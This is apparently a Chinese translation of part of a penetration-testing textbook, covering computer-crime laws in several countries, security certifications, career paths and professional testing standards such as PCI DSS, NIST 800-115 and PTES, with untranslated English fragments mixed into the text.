这与18 U.S. Code § 1030密切相关，但涵盖的是访问设备（如路由器）。本质上，该法律模仿了USC 1030，但适用于用于访问系统的设备。就我个人而言，该法律最引人注目的地方在于它还涵盖了伪造的访问设备。本书后面你将学习到 rogue 访问设备和中间人攻击。该法律将明确适用于这种情况。

## 州法律

美国共有50个州，超出本书范围去涵盖每一个州的法律。建议你在作为渗透测试人员工作的任何州咨询当地法律。

## 国际法律

超出本书范围去涵盖每个国家的法律。一个经验法则是，任何未经许可的访问在任何司法管辖区都极有可能构成犯罪；不过，我们可以在本节中介绍几部重要的法律。

### 欧盟指令 2013/40

2013年9月3日，关于攻击信息系统的欧盟新指令2013/40号（“该指令”）生效。它旨在打击大规模网络攻击，并要求各成员国制定更严厉的网络犯罪刑事法律。

### 沙特阿拉伯

沙特阿拉伯拥有《反网络犯罪法》（皇家法令第M/17号，日期为1428年拉比一月8日）。该法第6条规定，对包括以下在内的多种违法行为可判处最高5年监禁并处以约相当于80万美元的罚款：

> “通过信息网络或计算机制作、准备、传输或存储损害公共秩序、宗教价值观、公共道德和隐私的材料。”

### 约旦信息系统和网络犯罪法

又称2010年《信息系统犯罪法》，该法律的几处摘录如下：

> “任何人以任何方式未经授权或违反或超出授权故意访问网站或信息系统者，应处以不少于一周且不超过三个月的监禁，或处以不少于（100）一百第纳尔且不超过（200）二百第纳尔的罚款，或并处上述两种处罚。”

> “任何人通过信息网络或信息系统故意安装、发布或使用程序，目的是取消、删除、添加、破坏、披露、消除、阻止、更改、修改、转移、复制、捕获数据或信息，或使他人能够查看数据或信息，或妨碍、干扰、阻碍、停止信息系统的运行或阻止对其的访问，或更改网站或取消网站、破坏网站或更改其内容或运营，或冒用其身份或所有者身份而未经授权或违反或超出授权者，应处以不少于三个月且不超过一年的监禁，或处以不少于（200）二百第纳尔且不超过（1000）一千第纳尔的罚款，或并处上述两种处罚。”

### 未经授权计算机访问法

这是日本于1998年颁布但仍在生效的法律。措辞较为宽泛，因此可适用于广泛的活动。以下是该法律的几处有趣摘录：

> “通过电信线路向具有该访问控制功能的特定计算机输入他人用于该访问控制功能的识别码，使具有该访问控制功能的特定计算机投入运行，从而使受访问控制功能限制的特定用途得以实现的行为（不包括由添加了相关访问控制功能的访问管理员实施的行为，或经相关访问管理员或该识别码的授权用户批准实施的行为）；”


> “任何人不得向除该访问控制功能的访问管理员或该识别码的授权用户以外的人提供与访问控制功能相关的他人的识别码，以表明该识别码是特定计算机特定用途的识别码，或根据具有此类知识的人的要求，除非此类行为由该访问管理员实施，或经该访问管理员或该授权用户批准。”

## 认证

对渗透测试人员来说，了解行业认证测试和培训的作用非常重要。有多种此类认证测试和培训课程可供选择。然而，我必须明确，我无意认可或贬低这些认证中的任何一个。我想为您提供每项主要认证的客观看法。

在我们审视具体认证之前，让我们先讨论任何认证价值这一有争议的问题。认证在整个计算机行业中存在争议，在渗透测试子领域更是如此。您会发现有些人将特定认证奉为培训的圣杯，并暗示没有该认证就无法成为专业的渗透测试人员。其他人则会告诉您，完全相同的认证毫无价值，完全浪费您的时间。而还有其他人会告诉您所有认证都完全毫无价值。

现实是，这些观点都源于对任何认证实际含义的误解。认证并不意味着您是该主题的大师。它意味着您在特定的一组目标上展示了最低水平的胜任能力。在成功获得特定认证的人群中，他们的实际技能水平仍然存在很大差异。

那么为什么还要费心认证呢？一个原因是学习。我个人持有 42 项认证（截至撰写时，可能出版时更多）。其中一些非常有启发性；为它们学习时我学到了很多。从其他认证中我学到的很少。然而，在每一项中，我都学到了一些东西。我记不起有任何一项认证是我完全一无所获的。

另一个原因是雇主和客户需要一些可验证的指标来证明您拥有所需技能。认证提供了这样一个指标。然而，我绝不会建议仅凭某人拥有特定认证就聘用他。认证必须作为整个个人资料的一部分来看待。正式教育、非正式培训和经验也是非常重要的因素。尽管如此，底线是，许多公司如果您没有一两项认证就不会聘用您。因此，我强烈建议您将其中一项或多项作为职业教育的一部分。现在您对认证有了概述，我们可以讨论具体的行业认证。这里列出的认证不止这些。近年来，认证出现了爆炸式增长。要列出全部将是一个艰巨的挑战。所以，我选择的是与渗透测试相关的最知名认证，有一个例外。我将描述一个不太知名的认证，并在我们讲到它时解释原因。

### CEH

Certified Ethical Hacker 是 EC-Council（https://www.eccouncil.org）的旗舰认证。该认证有一些非常重大的积极因素，也有少数负面因素。让我们先从积极因素开始。它是最早的黑客/渗透测试认证。这意味着每个人都知道它是什么，几乎任何考虑聘用您的公司都可能熟悉它。还有几本书可以用来自学此考试。在亚马逊上简单搜索“CEH”就会显示其中一些。

截至出版时，课程/考试目前处于第 9 版。这意味着有足够的时间来解决問題并进行改进。我对考试本身的看法是，它涵盖了任何渗透测试人员都应熟悉的广泛工具和概念。

那么，这个认证的缺点是什么呢？黑客社区中的许多人对该认证持消极态度。一个原因是早期版本存在一些问题，包括忽略关键主题。另一个常见批评是，CEH 涵盖了非常广泛的工具，但对任何工具都没有真正的深度。截至出版时，考试费用为 550 美元。如果您自学或参加非官方培训课程，则还必须支付 100 美元的申请费，以查看您是否有资格参加考试。资格基于网络安全领域 2 年的经验。

### GPEN

GIAC Penetration Tester（GPEN）是 SANS Institute（https://www.giac.org/certification/penetration-tester-gpen）提供的基础渗透测试课程/认证。为了正确审查该认证，我必须先对 SANS 培训总体上做几点观察。如果您使用喜爱的搜索引擎搜索与计算机安全相关的任何主题（例如“pen testing methodology”、“SQL Injection”、“Windows Forensics”等），几乎可以保证您获得的结果中至少有一个是 SANS 论文。SANS 在高质量论文方面享有极佳的声誉。事实上，本书后面我将引用几篇 SANS 论文作为来源。更棒的是，他们的论文可在互联网上免费供任何人阅读。

SANS 培训的第二个积极问题是培训享有极佳的声誉。在我整个职业生涯中，与世界各地数以千计的 IT 专业人士交谈后，我从未遇到过有人抱怨在 SANS 课程中没有学到新信息的人。

那么缺点是什么呢？首先，他们的课程是我见过的最昂贵的 IT 培训课程。通常 IT 培训课程为期 1 周/40 小时，费用在 1500 美元到 2800 美元之间。SANS 课程远超 4000 美元。此外，他们不公布考试目标，因此自学非常困难。如果您选择不参加他们的课程而只参加考试，考试费用将超过 1100 美元，而且您将很难找到自学材料。

GPEN 本身是一门良好的通用渗透测试课程，涵盖了成为渗透测试人员所需的基本主题。培训结合了动手实验和讲座/理论。

### OSCP

Offensive Security 的 Offensive Security Certified Professional（OSCP）认证（https://www.offensive-security.com/information-security-certifications/oscp-offensive-security-certified-professional/）在黑客社区中获得了非常好的声誉。与认证考试不同，它不是笔试。考生必须成功入侵测试系统。这使其成为您黑客技能非常现实的测试。换句话说，不可能通过 OSCP 而没有实际的黑客技能。

OSCP 的主要缺点是它实际上并未教授或测试渗透测试——它测试的是黑客攻击。而正如我希望在本章中已明确的那样，渗透测试不仅仅是黑客技术。考试和课程费用为 800 美元，与许多其他认证课程相比价格相当低廉。根据 Offensive Security 的网站，您必须报名参加他们的课程才能参加考试；您不能像其他认证供应商那样直接挑战考试。

### Mile2

Mile2 的安全培训（https://mile2.com）和认证不如 EC-Council 或 ISC2 那么知名。Mile2 认证在业界的声誉实际上是扎实的。它们不如 SANS 或 Offensive Security 认证那么知名或受重视，但也绝对没有不良声誉。主要优势是您可以根据自己的方便在线参加考试，并且他们有多层次的渗透测试/黑客认证，从最基础的 Certified Vulnerability Assessment 开始，到 Certified Penetration Testing Consultant 为止。他们还提供一系列认证，从相对初级到更复杂的。而且他们有一个非常重大的优势：他们的考试费用比其他任何考试都便宜得多。

### CISSP

Certified Information System Security Professional（CISSP）实际上并不是渗透测试认证。相反，它是通用信息安全认证。包括它在这里似乎很奇怪。CISSP 是原始的 IT 安全认证。它是最古老、最知名的。坦率地说，许多 IT 安全工作即使是渗透测试或数字取证工作也列出 CISSP。经常有人说，任何 IT 安全专业人员在某个时候都需要获得 CISSP。这就是我在这里提及它的原因。

考试本身是 250 道题目，涵盖 IT 安全的 8 个领域（之前是 10 个领域）。它经常被描述为“宽一英里，深一英寸”。这意味着它涵盖了广泛的主题，但对任何特定主题都没有太多深度。我同意这一评估。但这正是它如此有价值的原因。无论专业如何，IT 安全专业人员都必须对 IT 安全主题的广度有良好的总体理解至关重要。

截至出版时，考试费用为 550 美元，要求拥有大学学位的四年经验，或无学位的五年经验。经验的定义相当宽泛，所以如果您在 IT 行业工作了数年

年后，你有很大可能满足经验标准。对于 CISSP 来说，既有官方也有非官方的课程，而且在 Amazon.com 上可以找到许多自学书籍。

## PPT

这是我之前提到的鲜为人知的认证。在这种情况下，让我先谈谈缺点再谈优点。最明显的缺点是它知名度较低。人们可能不会立即认出“Professional Penetration Tester”认证，不过希望名称本身就能阐明其意图。完全披露一下，这个考试是我创建的，目前是第 2 版。

为了说明这个考试的优点，请允许我解释一下我为什么创建它。在我看来，目前已有许多优秀的考试，包括本节中我之前描述的那些。然而，我觉得仍有几方面不足，所以我创建了一个考试和认证来解决这些问题。

第一个问题是，本节中描述的当前考试对渗透测试标准或方法论的覆盖几乎为零。PPT 涵盖了你在第 2 章中会看到的标准和方法论。PPT 还涵盖标准黑客技术，例如 SQL injection（你将在第 7 章“Web Hacking”中学习），nmap scanning（你将在第 4 章“Reconnaissance”中学习），information gathering（你将在第 4 章中学习），basic Linux（你将在第 9 章“Introduction to Linux”中学习），以及其他 pen testing/hacking 主题。

我注意到的第二个问题是认证考试变得多么昂贵。我认为应该有一个更实惠的渗透测试认证。基于此，我创建了 Professional Penetration Tester 考试，该考试在线进行，费用为 $99。

## This Book and Certifications

首先，你应该知道这不是一本认证准备书籍。它并非专门为你准备上述提到的任何认证考试而设计；然而，本书涵盖的主题也出现在一个或多个上述认证考试中。如果你完全掌握了本书的内容，那么你就已经涵盖了 GPEN、CEH 甚至 OSCP 的大部分材料。当然，你也将涵盖所有 PPT。原因在于这些考试都有一定重叠。它们都涵盖 nmap、SQL injection、Windows hacking、Metasploit 等。因此，虽然这不是认证准备指南，但它无疑可以成为帮助你准备许多认证考试的有用工具。

## Careers in Penetration Testing

无论你是把这本书当作正在修读的正式课程的教科书，还是自学，你很可能希望进入这个领域或在该领域中晋升。因此，我想用几段文字来讨论你有哪些职业选择。在下一节中，我将讨论你需要的技能，以及如何在此基础上提升。

### Security Administrators

渗透测试技能最先且最明显的职业路径是安全管理员。这些专业人员并不专门从事渗透测试；相反，他们关注的是广泛的网络安全问题。即使这些安全专业人员不把渗透测试作为日常任务的一部分，学习渗透测试也很重要，原因有三。

第一个原因是让安全专业人员在认为必要时能够进行有限的渗透测试。这可能是对媒体报道的某些安全漏洞或组织近期发生的入侵事件的回应。存在许多场景，安全管理员可能希望对其组织系统的某些方面进行有限的渗透测试。

普通安全专业人员学习渗透测试的第二个原因是，以便他们具备足够的知识，在需要时能够有效聘请称职的外聘顾问。如果你对该职业一无所知，就很难判断一个专业人士的胜任能力。具备至少基础的渗透测试技能将使你能够轻松评估你可能希望聘请的外聘顾问的胜任能力。

第三个原因涉及我们从第 3 章“Cryptography”开始讨论的黑客技术。在我看来，防范你不了解的威胁几乎是不可能的。换句话说，你可能希望至少具备基础的黑客技能，以便更好地指导你选择安全对策。如果你知道攻击者知道什么，你将更能抵御他们的攻击。如果你完全掌握了本书中的技能，那对任何安全管理员来说都是足够的。

### Commercial Penetration Testing

当今许多公司雇佣自己的内部渗透测试人员。其他公司则为客户提供渗透测试服务。无论哪种情况，这些公司都需要具备渗透测试技能的人员。事实上，一些公司拥有庞大的渗透测试团队，并在这些团队内部设有子专业。

正如你所料，商业渗透测试需要的技能远比仅仅是具备渗透测试技能的安全管理员多得多。这些团队中的许多都是专业化的，因此你可能会专攻 malware、web penetration testing、PCI DSS penetration testing，或其他子主题。正如你可能猜到的那样，掌握本书中的所有技能会使你有资格成为一名初级商业渗透测试员，但随着职业生涯的进展，你将有更多东西需要学习。

### Government/National Defense

自从我开始从事网络安全工作以来，该行业已大幅增长。现在有一些工作在我开始时根本不存在。例如，美国军方有 jobs（称为 Military Occupational Specialties）for cyber security。这 literally 意味着你以 cyber security specialty 加入美国陆军、海军陆战队或空军。优势在于无需先前培训；军队将提供必要的培训。此外，军队还会进行安全审查，通过审查即使在民用世界也会非常有帮助。

也可以为 defense contracting agencies 工作。所有主要承包机构都有 cyber security sections。然而，defense contracting companies 期望你已经具备高水平的技能和经验。他们不提供培训。

Intelligence agencies，最著名的是 NSA，hire people with hacking/penetration testing skills。正如你可能推断的那样，他们寻找的人不仅技能水平非常高，而且能够通过非常严格的背景调查。需要 ethics and confidentiality 在这样的组织中显然会极高。

### Law Enforcement

显然，police officers 不会入侵网络，至少不是常规操作。然而，对于负责调查 cyber crimes 的执法人员来说，了解这些犯罪是如何实施的非常重要。具备攻击者所用技术的实际知识将使任何执法人员在调查此类 breaches 时更胜任。我个人曾为多个执法机构教授过 hacking courses，正因如此。

我开始本节时说执法人员不会入侵网络。存在例外。例如，有著名的“playpen” website 案例。这是一个分发 child pornography 的 dark website。FBI 成功在该网站植入 spyware 以帮助抓捕到该网站进行 pornographic images of children 交易的客户。这是一个利用 hacking skills 抓捕罪犯的情况。顺便说一下，在这种情况下，使用了 Metasploit payload。我们将在 Chapters 13 through 16 中探索 Metasploit。

## Building Your Skillset

无论你使用本书的目的或职业抱负如何，都应注意本书为你的 penetration testing 提供了基础。总有更多东西需要学习。事实上，你进入的是一个永远无法完全掌握的领域。总会有 new techniques 和 new countermeasures。因此，让我们花点时间讨论如何最好地提升你的技能。

首先，也是最关键的事情，是 practice what you see in this book。Don’t just read it, do it！会有 plenty of hands-on labs。Do each and every one of them。但不要止步于此。Labs 旨在让你熟悉特定 tool 或 technique。你应该 explore beyond the labs。

另一个需要考虑的问题是你对 computer science in general 的整体知识深度。当然有一些 penetration testers 没有 significant background in computer science。然而，你对 computer science 了解得越多，作为 penetration tester 就会越好。你应努力至少具备 solid working knowledge of operating systems 和 networking technology。

你不断学习 new techniques 也很重要。这是一个变化非常快的领域。今天学到的东西很快就会过时。


## 摘要

本章为您提供了对渗透测试领域的广泛介绍。讨论了各种法律和伦理问题，以及一些通用术语。已描述了特定的行业认证。了解渗透测试中使用的不同类型的测试、相关的法律和伦理考虑以及术语非常重要。

## 测试你的技能

### 多项选择题

1. Juan 已被聘请对一家小型金融公司进行渗透测试。他获得的唯一信息是公司名称及其网关的 IP 地址。这是什么类型的测试？
- A. 黑盒
- B. 灰盒
- C. 漏洞扫描
- D. 审计

2. 您正在进行一家公司的渗透测试。您发现有人在公司网络范围内放置了一个 rogue 访问设备，并利用它窃取员工的凭证。哪部法律最适用于此场景？
- A. 18 USC 2701
- B. 18 USC 1029
- C. 18 USC 1030
- D. 18 USC 1050

3. John 正在对学校系统进行安全测试。他的测试主要包括审查过去的事件响应报告、安全策略和其他文件。他非常关心遵守安全策略。John 进行的是什么类型的测试？
- A. 白盒
- B. 漏洞评估
- C. 安全审计
- D. 灰盒

4. Mohammed 正在寻找一项主要或完全专注于动手黑客技术的认证测试，而不仅仅是多项选择题。哪项测试最适合他？
- A. CEH
- B. PPT
- C. GPEN
- D. OSCP

5. 您被要求领导一个小型渗透测试团队。该团队专注于 PCI 合规性测试。保持所有测试质量的一个简单方法是什么？
- A. 使用不同的技术或工具重复关键测试。
- B. 使用不同的技术/工具和不同的测试人员重复关键测试。
- C. 由不同的测试人员重复关键测试。
- D. 确保所有测试仅使用经过认证的工具。

## 项目

### 项目 1

使用您喜欢的搜索引擎研究美国某个州或某个国家的法律，并找到该司法管辖区的至少三部法律。写一份这些法律的简要描述，并描述它们如何影响渗透测试。

### 项目 2

使用您喜欢的搜索引擎查找来源，搜索在过去 30 天内发布的一个漏洞。然后详细描述该漏洞。描述您对测试该特定漏洞的初步想法。

# 第 2 章

### 标准

### 章节目标

阅读本章并完成练习后，您将能够做到以下几点：
- 了解各种渗透测试标准
- 使用这些标准指导您自己的渗透测试
- 将这些标准综合成一种统一的渗透测试方法。

在第 1 章“渗透测试简介”中，您已了解渗透测试的主题和专业。 第 1 章中重点强调的一个问题是渗透测试不是黑客攻击。在本章中，这一事实应变得更加清晰。渗透测试是一项专业活动，应像任何其他工程或项目管理任务一样对待。

与工程和项目管理一样，渗透测试也有专业标准。渗透测试不应是一系列随机的、临时的黑客尝试。它应该是一个有特定目标的精心规划的项目。为实现这一目标，已发展出一系列专业标准来解决渗透测试流程。 其中一些标准针对特定的行业目标。例如，支付卡行业数据安全标准（PCI DSS）用于渗透测试，专门用于测试处理信用卡数据的公司的安全性。其他标准（例如渗透测试执行标准 [PTES] 和注册道德安全测试员委员会 [CREST]）是可用于任何组织或行业的渗透测试的通用方法。

本章将描述并解释这些标准中的每一个。在本章结束时，您应该对主要的渗透测试标准有实际的工作知识。然后，这些标准将被综合成一种可用于您自己的渗透测试的建议方法。

## PCI DSS

支付卡行业数据安全标准是 Visa、MasterCard、American Express 和 Discover 使用的标准。事实上，该标准包含许多部分，但我们只会简要总结该标准本身，然后重点关注其渗透测试部分的具体细节。

PCI DSS 的第一个版本于 2004 年 12 月发布。该标准已定期更新，截至 2016 年 4 月，目前为 3.2 版。

PCI DSS 的主要关注点是处理信用卡的公司应实施的安全控制和目标。安全审计和渗透测试是为了确保实施此类控制并实现目标。这就是您需要基本了解 PCI DSS 才能真正理解 PCI DSS 渗透测试的原因之一。

PCI DSS 定义了一些相当宽泛的安全目标，必须满足这些目标，网络才能符合安全要求。您可以在图 2-1 中看到控制目标。



图 2-1 PCI DSS 控制目标。

如果您的渗透测试旨在测试 PCI DSS 目标，那么您必须非常熟悉这些目标。

### 实际测试

PCI 渗透测试标准定义了必须用于 PCI 渗透测试的特定流程。这里提供了该流程的概述。

首先，在测试 engagement 之前，必须探索 PCI DSS 的三个概念。然后是测试本身的三个阶段。图 2-2 显示了必须解决的三个概念领域。



图 2-2 PCI DSS 测试概念。

第一个问题是确定测试范围。这在任何渗透测试中都很重要。并非总是测试所有内容。事实上，在许多情况下，这是不切实际的。因此，首先确定将测试哪些系统以及测试程度如何至关重要。

我真正钦佩 PCI DSS 标准的一点，也是我认为应纳入所有渗透测试的内容，就是资格问题。在第 1 章中，我讨论了夸大资格的问题，这也是此处所指资格的一部分。但除此之外，必须确定此特定渗透测试所需的资格水平。有些人会认为你只需始终聘请最合格且在预算内可用的人员。尽管这看起来显而易见，但这是错误的。说明这种方法为何错误的一个好方法是考虑一个医学类比。你不需要世界知名的外科医生来接骨。

在确定特定渗透测试的资格时，需要考虑几个因素。首先是复杂性。例如，对电子商务网站进行的网络攻击的简单测试比对监控控制和数据采集（SCADA）系统的测试复杂性低。另一个问题是目标网络的性质。例如，仅 Microsoft Windows 的同构网络比具有 Microsoft Windows 工作站、Linux Web 服务器和 Mac 笔记本电脑的网络更容易测试。前述范围也是确定所需资格的问题。测试范围越广，需要的技能就越多。

最后，第三个概念是方法论。在第 1 章中，我讨论了各种方法论。与该主题密切相关的是本章讨论的标准。当然，对于 PCI DSS

测试，显然 PCI 标准正在接受测试；然而，可能还有其他标准也应被测试。

一旦这些概念得到解决，PCI DSS 采用了一个相当简单的三阶段方法，但每个阶段都有特定的要求。你可以在表 2-1 中看到这些要求的摘要。

### Table 2-1 PCI DSS Phases and Requirements
| Pre-Engagement | Actual Test | Post-Engagement |
|---|---|---|
| Scope | Application layer | Remediation |
| Documentation | Network layer | Retesting identified vulnerabilities |
| Rules of engagement | Segmentation | Cleaning up |
| Environment | How to handle cardholder data | Reporting |
| Success criteria | Post-exploitation |  |
| Pass vulnerability scans |  |  |

## NIST 800-115
国家标准与技术研究院是美国的一个组织，制定了许多标准，其中许多与网络安全相关。对渗透测试人员来说特别感兴趣的是 NIST 800-115，《信息安全测试与评估技术指南》。正如该标准标题所暗示的，它是测试的通用指南，而不仅仅是渗透测试。

该标准包含一些与渗透测试无关的项目，例如文档审查、日志审查和类似项目。这些问题更适合在安全审计中涵盖。应注意，进行审计先于渗透测试并指导其重点是完全合适的。

NIST 800-115 使用三个阶段：
- Planning
- Execution
- Post-Execution

这可能看起来像是一个相当简化的计划，但这些阶段各自都很健全且详细。我们将在以下各节中更详细地介绍每个阶段。

### Planning
规划是区分渗透测试与黑客攻击的项目之一。黑客攻击可能有计划也可能没有计划，如果有计划，计划可能非常灵活。然而，专业的渗透测试应像工程项目一样进行，这意味着详细的计划至关重要。

规划中要解决的第一个问题是确定目标。你到底想完成什么？“测试系统安全”这样模糊的答案是完全不够的。在规划渗透测试时，你的目标应具有军事般的精确度。一个好的示例目标可能是“针对 OWASP Top 10 漏洞测试电子商务服务器。”我们将在本章稍后详细介绍 OWASP；目前只需了解它是一个关注网络安全并发布 Top 10 漏洞列表的组织。

你目标的主要问题是它们必须具体到可衡量。模糊的目标很难衡量，通常也提供不了有意义的指导。与目标相关的是范围问题。说你要测试一切固然很美好，但在任何规模较大的网络中，这根本不可能。你需要选择一个既可管理又能有效解决安全问题的范围。做到这一点的方法是让过去的事件报告、漏洞扫描和安全审计来帮助你决定渗透测试的范围。

### Execution
测试的执行实际上分为三个子阶段。其中第一个是网络发现。你只是尝试找出目标网络上有什么。有许多工具，我们将在本书后面介绍，可以帮助你枚举整个网络。

在枚举网络之后，你需要识别漏洞。必须牢记，漏洞扫描不是渗透测试；然而，漏洞扫描是指导渗透测试的一种方式。换句话说，尝试利用一个对你试图进行的攻击并不脆弱的目标系统是不会取得任何成果的。在后面的章节中，你将看到各种可以帮助你识别漏洞的工具。表 2-2 来自 NIST 800-115 文档（在该文档中是表 4-1），描述了发现技术。

### Table 2-2 NIST 800-115 Discovery Techniques
| Technique | Capabilities |
|---|---|
| Network Discovery | Discovers active devices<br>Identifies communication paths and facilitates determination of network architectures |
| Network Port and Service Identification | Discovers active devices<br>Discovers open ports and associated services/applications |
| Vulnerability Scanning | Identifies hosts and open ports<br>Identifies known vulnerabilities (note: has high false positive rates)<br>Often provides advice on mitigating discovered vulnerabilities |
| Wireless Scanning | Identifies unauthorized wireless devices within range of the scanners<br>Discovers wireless signals outside of an organization's perimeter<br>Detects potential backdoors and other security violations |

最后，是时候尝试利用这些漏洞了。这是实际使用黑客技术的子阶段。在此阶段，你尝试各种技术来入侵目标系统。

实际的渗透测试，即攻击阶段，被划分为一个四步流程。步骤是 planning-discovery-attack-reporting。你可以在图 2-3 中看到这一点。



FIGURE 2-3 Pen Testing Steps.

之所以将其呈现为一个循环有两个原因。第一个原因是，如果之前进行过渗透测试，那么在当前测试中计划的一项内容就是测试之前渗透测试中发现的问题。实质上，检查这些问题是否已得到纠正。第二个原因将其呈现为循环是，在渗透测试过程中，你可能会执行一次攻击，审查结果，而这可能会引导你进行其他应执行的攻击。例如，如果你发现某个站点容易受到 SQL 注入攻击，那么测试跨站脚本攻击也是合理的。

### Post-Execution
Post-execution 不仅仅是一个涵盖实际攻击后你所做一切的笼统短语。此阶段与其它阶段一样关键。第一个目标是确保你没有留下任何开放的系统。如果你入侵了一个系统，在测试结束后，尽可能关闭该入侵点。

你还需要创建一个报告。该报告应相当详细，并应显示你所做的一切以及结果。如果一次入侵尝试失败，记录它与记录成功的入侵一样重要。此外，当你成功入侵系统时，你需要提供你是如何做到的细节。

报告中最重要的部分是补救措施。你的报告应记录目标网络如何修复你发现的漏洞。渗透测试的最终目标是在攻击者发现它们之前找到弱点并加以纠正。

NIST 800-115 非常详细，并讨论了你应尝试的具体攻击，例如密码破解、社会工程学、边界检查等。即使你不执行需要符合 NIST 800-115 的渗透测试，阅读该标准也是一个好主意。

## National Security Agency InfoSec Assessment Methodology (NSA-IAM)
国家安全局信息安全评估方法论（NSA-IAM）描述了三个总体阶段，每个阶段又细分为在该阶段进行的特定任务。

- Pre-Assessment
  - Determine and manage the customer's expectations
  - Gain an understanding of the organization's information criticality
  - Determine customer's goals and objectives
  - Determine the system boundaries
  - Coordinate with customer
  - Request documentation
- On-Site Assessment
  - Conduct opening meeting
  - Gather and validate system information (via interview, system demonstration, and document review)
  - Analyze assessment information
  - Develop initial recommendations
  - Present out-brief
- Post-Assessment
  - Additional review of documentation
  - Additional expertise (get help understanding what you learned)
  - Report coordination (and writing)

对于任何渗透测试人员来说，这个广泛概述中有许多值得注意的地方。请注意，在预评估阶段有一项内容是管理客户期望。有人雇佣你进行渗透测试。为了避免日后出现误解和不满，客户必须完全了解渗透测试会做什么，以及不会做什么。

此外，在预评估阶段，NSA-IAM 要求你了解目标网络的关键性以及客户的目标和目的。这是有针对性的渗透测试的一部分。我们已经讨论过，试图测试一切是不切实际的。通过了解哪些系统对该组织最关键，并了解客户的目标和目的，你可以有效地为渗透测试选择正确的目标。

我还想请你注意后评估阶段的一个具体项目。那就是获取专业知识来协助你。任何人都无法知道一切。如果你的渗透测试涉及你可能不具备专业知识的技术，那么你应该寻求一位是


精通该技术的专家。那个人不必是渗透测试员，只需是感兴趣的具体技术的专家即可。

NSA-IAM 共有三个安全测试等级。评估等级 I 是审查政策和程序。它与其说是测试，不如说是一次审计。评估等级 II 涉及使用工具进行诊断和查找缺陷。评估等级 III 称为红队演练。这就是渗透测试发生的阶段。

关于评估等级 III 有一个突出之处，即目标是模拟特定的攻击者。与简单地执行广泛的渗透测试不同，目标是执行威胁建模来描述特定攻击者，然后根据该模型进行渗透测试。

例如，如果你的威胁建模确定可能的攻击将是有组织犯罪集团试图入侵网络，专门为了窃取财务数据，那么渗透测试应以这种方式进行。

## PTES

渗透测试执行标准（PTES）建议七个阶段，如图 2-4 所示。



图 2-4 PTES 的七个阶段。

值得注意的是，在此过程中，前四个阶段涉及渗透测试前的信息收集。这些七个步骤在 PTES 网站（http://www.pentest-standard.org）上都有详细说明。我们将在本节中探讨重点，但我强烈建议你访问该网站并详细查看 PTES 开发者概述的整个流程。

作为预 engagement 活动的一部分，PTES 建议首先定义范围。我们已在参考之前标准时讨论了明确了解测试范围的必要性。PTES 建议与客户会面以充分讨论与范围相关的问题。除了范围之外，PTES 还提供一些基本指标来帮助你估算执行渗透测试所需的时间。

PTES 提供的一个特性，我认为可以应用于任何渗透测试，就是使用问卷。PTES 概述了一些你应该提交给客户的基本问题。这为你提供了一个正式机制，用于收集有关客户目标、目标以及其期望的数据。

情报收集始终是任何有效渗透测试的重要组成部分，PTES 对此过程进行了相当详尽的描述。在情报收集阶段，你正在了解目标网络。例如，你会查明目标组织必须遵守的具体标准（如 PCI DSS）。这应是规划渗透测试的一个因素。你还可以更进一步，利用开源情报（OSINT）查明有关目标组织的公开信息。这正是会指导真实攻击者的信息，因此也应指导你的渗透测试。

威胁建模是思考目标组织可能面临的威胁并建模这些威胁如何实现的过程。这意味着你尝试了解可能的攻击者是谁，以及他们将如何进行攻击。这对于指导你的渗透测试非常宝贵。

漏洞分析阶段是从信息收集到行动的过渡。你可以使用各种漏洞扫描器（我们将在本书后面详细探讨）来帮助你发现漏洞。此分析本质上是在为实际攻击挑选目标。

在利用阶段，你将实际尝试通过之前识别的漏洞入侵目标网络。这就是实际黑客攻击发生的地方。值得注意的是，在专业的渗透测试中，黑客攻击要到流程很深入时才会发生。在进行任何黑客攻击之前都会做大量工作。

后利用阶段并不是指测试之后，而是指特定系统被入侵之后。PTES 标准规定这是确定你已入侵系统的价值并采取措施维持访问的阶段。这可能涉及在系统上创建用户账户或安装后门。

报告阶段是最终产出工作成果的地方。报告必须详细，展示确切使用了哪些技术、利用了哪些漏洞，最关键的是：如何修复发现的这些问题。

## CREST (UK)

CREST 是一个非营利组织，提供网络安全培训和认证（www.crest-approved.org）。CREST 最初仅在英国，但现在也在亚洲和北美。CREST 有多个考试，其中与我们的讨论最相关的是 Crest 注册测试员（CRT）考试。

CREST 考试是实践性考试，考生必须实际找到并利用特定问题。虽然 CREST 不是标准，而是认证，但该认证中有些内容值得回顾。

他们要求考生首先了解相关的网络法律。这是我们讨论的其他标准未涵盖的内容，但对任何渗透测试员都很重要。

与许多其他标准一样，CREST 考试要求测试员理解项目范围。与我们讨论的其他标准不同，CREST 考试要求考生至少具备网络工作的知识。这对于渗透测试员来说似乎显而易见，但明确要求这一点是非常好的主意，有助于确保渗透测试员确实有资格执行测试。事实上，CREST 教学大纲（http://www.crest-approved.org/wp-content/uploads/crest-crt-cpsa-technical-syllabus-2.0.pdf）的很大一部分专门用于基础网络技能。

## A Synthesis (Putting Standards Together into a Single Unified Approach)

